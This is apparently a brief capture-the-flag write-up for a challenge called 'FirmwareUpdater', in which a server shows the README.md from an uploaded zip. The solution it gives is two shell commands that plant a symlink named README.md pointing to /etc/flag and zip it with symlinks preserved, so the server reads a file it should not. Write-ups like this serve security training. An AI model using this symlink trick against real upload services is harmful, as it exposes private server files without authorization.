 # FirmwareUpdater

The server displays content of README.md file from unpacked zip archive.

Solution is to send symlink in zip:
```sh
ln -s /etc/flag README.md
zip --symlinks test.zip README.md
```
